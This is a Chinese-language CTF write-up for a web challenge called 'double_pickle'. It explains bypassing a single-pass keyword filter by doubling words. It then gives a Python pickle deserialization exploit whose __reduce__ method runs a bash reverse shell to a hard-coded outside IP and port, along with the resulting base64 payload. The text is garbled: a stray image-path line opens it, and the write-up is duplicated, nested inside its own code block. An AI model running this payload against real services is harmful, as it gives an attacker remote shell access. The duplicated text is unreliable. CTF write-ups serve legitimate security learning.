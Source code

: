 ## double_pickle


****

出题人：Jay17

![image-20240413222856596](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413222856596.png)

两个四位路由，爆破一下就是**/hint**和**/calc**

**/hint**路由回显如下：相当于给了源码，过滤替换很多，但是都是单次，可以双写绕过。



构造exp：(linux下执行)

````python
## double_pickle

****

出题人：Jay17

![descript](media/a094a8ce94a134467e41e39a66b400c0.png)

两个四位路由，爆破一下就是**/hint**和**/calc**

**/hint**路由回显如下：相当于给了源码，过滤替换很多，但是都是单次，可以双写绕过。

![descript](media/dd9deb210777114e2ecec999eb8a57cc.png)

构造exp：(linux下执行)

```python
import pickle
import os
import base64

class Jay17(): 
    def __reduce__(self):        
        return(os.system,('bash -c "bash -i >& /dev/tcp/120.46.41.173/9023 0>&1"',))   #反弹shell。因为这里无回显且无写入权限。

a= Jay17()
payload=pickle.dumps(a).replace(b'os', b'ooss').replace(b'reduce', b'redreduceuce').replace(b'system', b'syssystemtem').replace(b'env', b'enenvv').replace(b'flag', b'flflagag')   #双写绕过

payload=base64.b64encode(payload)    #base编码byte类
print(payload)
```

生成结果：（记得URL编码后再发送）

```
gASVUAAAAAAAAACMBXBvb3NzaXiUjAZzeXNzeXN0ZW10ZW2Uk5SMNWJhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTIwLjQ2LjQxLjE3My85MDIzIDA+JjEilIWUUpQu

```

![descript](media/445023263e6b7e6510cde5fe544e1355.png)

![descript](media/2b5cb810c6b64d134f4a552473b5a286.png)


````

生成结果：（记得URL编码后再发送）

```
gASVUAAAAAAAAACMBXBvb3NzaXiUjAZzeXNzeXN0ZW10ZW2Uk5SMNWJhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTIwLjQ2LjQxLjE3My85MDIzIDA+JjEilIWUUpQu

```

![descript](media/445023263e6b7e6510cde5fe544e1355.png)

![descript](media/2b5cb810c6b64d134f4a552473b5a286.png)





